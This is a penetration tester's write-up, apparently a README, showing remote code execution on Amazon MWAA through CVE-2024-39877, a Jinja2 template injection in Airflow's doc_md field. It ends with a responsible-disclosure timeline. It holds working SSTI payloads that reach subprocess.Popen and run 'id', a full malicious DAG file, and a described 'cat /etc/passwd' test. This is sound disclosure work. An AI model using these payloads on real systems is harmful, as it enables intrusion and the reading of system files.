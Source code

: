 # Amazon-MWAA-RCE

Amazon Managed Workflows for Apache Airflow (MWAA) is a managed service to run Apache Airflow on AWS without managing infrastructure. However, most installations are affected by CVE-2024-39877, an SSTI vulnerability which allows remote code execution.

<br>


## Local testing

After finding the Apache Airflow used by the AWS MWAA instance was 2.9.2, I decided to find possible attacks for this version and test them first locally.

CVE-2024-39877 is a vulnerability affecting Apache Airflow versions 2.4.0 to 2.9.2, included. It allows authenticated users with DAG editing permissions to inject malicious Jinja2 templates into the **doc_md field**, leading to RCE. 

It is perfectly explained in this [Securelayer7 blog](https://blog.securelayer7.net/arbitrary-code-execution-in-apache-airflow/), but I still needed to deep a little more in it to actually execute commands.

First, I installed the software using Docker. The Amazon MWAA instance was using the 2.9.2 version, so I used the same:

```
sudo docker pull apache/airflow:2.9.2
curl -LfO 'https://airflow.apache.org/docs/apache-airflow/2.9.2/docker-compose.yaml'
mkdir -p ./dags ./logs ./plugins ./config && echo -e "AIRFLOW_UID=$(id -u)" > .env
sudo docker-compose up airflow-init
sudo docker-compose up
```

Then, I created a new DAG file (which are actually Python files with the typical ".py" extension) and placed it in the recently created "dags" folder. This basic payload exploits the SSTI vulnerability and prints the result of the multiplication:

```
doc_md="""
{{ 3*3 }}
"""
```


![img1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/refs/heads/master/images/mwaa/Screenshot_1.png)


Next, the list of classes using the same payload from the Securelayer7 blog:

```
doc_md="""
{{ ''.__class__.__mro__[1].__subclasses__() }}
"""
```


![img2](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/refs/heads/master/images/mwaa/Screenshot_2.png)


This shows the SSTI attack was successful and the list of classes contains the *subprocess.Popen* class, which, as mentioned in the blog, is useful for executing commands remotely. 

To actually call this class, we need to find the index from the list of classes. I could not figure out a way to automate it inside the SSTI payload, but you can use any way or dirty code to get the correct index for your installation. In my case it is the index number 309, so I will first print the name of the class to make sure it is "Popen":

```
doc_md="""
{{ ''.__class__.__mro__[1].__subclasses__()[309].__name__ }}
"""
```


![img3](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/refs/heads/master/images/mwaa/Screenshot_3.png)


If the class name from the previous step is correct, the index is the correct one so it is possible to execute commands like this:

```
doc_md="""
{{ ''.__class__.__mro__[1].__subclasses__()[309]('id', shell=True, stdout=-1).communicate() }}
"""
```


![img4](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/refs/heads/master/images/mwaa/Screenshot_4.png)


A complete malicious DAG file could look like this:

```
from datetime import datetime, timedelta
from airflow import DAG
from airflow.operators.python import PythonOperator

def say_hello():
    print("Hello World from Airflow!")

default_args = {
    'owner': 'airflow',
    'retries': 1,
    'retry_delay': timedelta(minutes=1),
}

with DAG(
    dag_id='test_3',
    default_args=default_args,
    description='Un DAG cualquiera',
    schedule_interval='@daily',
    start_date=datetime(2025, 5, 7),
    catchup=False,
    tags=['ejemplo'],
    doc_md="""
    # Test 3
    ### Class Name
    {{ ''.__class__.__mro__[1].__subclasses__()[309].__name__ }}
    ### Command Output
    {{ ''.__class__.__mro__[1].__subclasses__()[309]('id', shell=True, stdout=-1).communicate() }}
    """
) as dag:
    tarea_1 = PythonOperator(
        task_id='di_hola',
        python_callable=say_hello,
    )
```

<br>

--------------------------

## Amazon MWAA testing

At the moment of writing this post, Amazon allows to set up the Apache Airflow using the versions v2.10.3, v2.10.1, v2.9.2, v2.8.1, v2.7.2, v2.6.3, v2.5.1, v2.4.3 as you can see in this link: [https://docs.aws.amazon.com/mwaa/latest/userguide/create-environment.html#create-environment-regions-aa-versions](https://docs.aws.amazon.com/mwaa/latest/userguide/create-environment.html#create-environment-regions-aa-versions).

![img9](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/refs/heads/master/images/mwaa/Screenshot_9.png)

**Update from July 2025**: Now the versions 2.4.3, 2.5.1 and 2.6.3 are not available anymore.

However, all these versions except v2.10.3 and v2.10.1 are vulnerable to CVE-2024-39877, the SSTI exploit I used to get remote command execution locally, as you can check in the NIST page: [https://nvd.nist.gov/vuln/detail/cve-2024-39877](https://nvd.nist.gov/vuln/detail/cve-2024-39877).

The only difference in this case is that the DAG files are not uploaded to a "dags" folder in the filesystem, but instead to an S3 bucket. So in order to compromise this Amazon service, the prerequisites are:

- The Apache Airflow version must be 2.9.2 or below.

- You need to be authenticated to the Apache Airflow web panel.

- You need to have permissions to write the DAG files to the S3 bucket.

For me, this was easy to obtain as this was a penetration test and not a Red Team assessment, so I could ask the affected team to upload the necessary files. If this had been an Apache Airflow installation and not the Amazon service, I would have been in a similar situation because I would have needed to upload the DAG files to the filesystem anyway.

To test the MWAA service, I sent 3 files containing different payloads:

- File 1: With a very simple payload ({{ 3\*3 }}).
- File 2: With the code to list the available classes.
- File 3: With the code to execute "cat /etc/passwd" assumming the index was 309.

First one... Success!

![img5](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/refs/heads/master/images/mwaa/Screenshot_5.jpg)

Second one... Success!

![img6](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/refs/heads/master/images/mwaa/Screenshot_6.jpg)

Third one... Not success

![img7](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/refs/heads/master/images/mwaa/Screenshot_7.jpg)


This was expected, because the classes order (the one we get when uploading the second file) is different for each instance of Apache Airflow I have tested. So it is time to read the output from the second DAG file again, find the correct index of the *subprocess.Popen* class, reupload the third file with the updated index and...

![img8](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/refs/heads/master/images/mwaa/Screenshot_8.jpg)

... Success! RCE in Amazon MWAA :)

<br>


--------------------------

## Responsible Disclosure Timeline

24-6-25 - Reported to AWS VDP

26-6-25 - RCE confirmed 




<br>

--------------------------

## Sources

- [Securelayer7 blog](https://blog.securelayer7.net/arbitrary-code-execution-in-apache-airflow/)

<br>
